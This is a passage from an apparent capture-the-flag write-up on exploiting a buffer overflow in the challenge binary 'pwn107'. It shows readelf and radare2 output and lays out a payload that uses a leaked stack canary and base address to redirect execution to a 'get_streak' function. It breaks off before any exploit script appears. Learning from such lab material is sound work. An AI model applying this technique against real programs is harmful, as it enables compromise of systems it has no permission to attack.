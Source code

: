 GG.

### Exploit the Buffer Overflow Vulnerability

The idea would be to exploit the *memory leaks* obtained previously to exploit the *BOF* to divert the execution flow towards `get_streak`.

First we need to get the offsets of *main* and *get_streak*.

```bash
$ readelf --syms pwn107 | grep -E "(main|get_streak)"
    64: 000000000000094c    70 FUNC    GLOBAL DEFAULT   14 get_streak
    66: 0000000000000992   243 FUNC    GLOBAL DEFAULT   14 main

```

Taking into account the *main* function:

`radare2`
```text
┌ 243: int main (int argc, char **argv, char **envp);
│ afv: vars(3:sp[0x10..0x48])
│ 0x00000992      55             push rbp
│ 0x00000993      4889e5         mov rbp, rsp
│ 0x00000996      4883ec40       sub rsp, 0x40
│ 0x0000099a      64488b0425..   mov rax, qword fs:[0x28]
│ 0x000009a3      488945f8       mov qword [canary], rax

│ 0x00000a53      488d45e0       lea rax, [buf]
│ 0x00000a57      ba00020000     mov edx, 0x200                        ; size_t nbyte
│ 0x00000a5c      4889c6         mov rsi, rax                          ; void *buf
│ 0x00000a5f      bf00000000     mov edi, 0                            ; int fildes
│ 0x00000a64      b800000000     mov eax, 0
│ 0x00000a69      e8e2fcffff     call sym.imp.read                     ; ssize_t read(int fildes, void *buf, size_t nbyte)

var int64_t canary @ rbp-0x8
var void * buf @ rbp-0x20
var char * format @ rbp-0x40

```

And having **canary** and **main_vaddr**, the *payload* to exploit the *BOF* must have the following form:

- *padding*: 0x20 - 0x8 = 24 bytes to fill the buffer
- **canary**
- *dummy_rbp* 0x8 bytes
- **get_streak virtual address**: (*main_vaddr* - *main_offset*) + *get_streak_offset* = *base_vaddr* + *get_streak_offset*

## Local Exploitation

While running the exploit, a stack alignment issue occurred:
